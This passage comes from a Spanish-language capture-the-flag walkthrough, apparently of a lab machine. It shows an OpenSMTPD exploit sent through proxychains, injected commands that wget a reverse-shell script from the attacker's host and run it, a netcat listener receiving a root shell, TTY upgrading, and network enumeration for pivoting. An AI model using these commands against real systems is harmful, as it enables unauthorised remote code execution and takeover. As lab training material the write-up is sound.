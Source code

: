 ```null
proxychains python3 exploit.py 10.241.251.113 25 'wget 10.10.14.6 -O /dev/shm/revshell'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
❯ proxychains python3 exploit.py 10.241.251.113 25 'bash /dev/shm/revshell'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

Y obtengo la shell

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.224.
Ncat: Connection from 10.10.10.224:34084.
bash: cannot set terminal process group (90): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# 
```

Tratamiento de la TTY

```null
root@smtp:~# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@smtp:~# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@smtp:~# export TERM=xterm
root@smtp:~# export SHELL=bash
```

Esta máquina no es la final, por lo que hay que aplicar pivoting

```null
root@smtp:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: eth0@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 0a:14:f8:9e:1f:33 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.241.251.113/24 brd 10.241.251.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::814:f8ff:fe9e:1f33/64 scope link 
       valid_lft forever preferred_lft forever
```

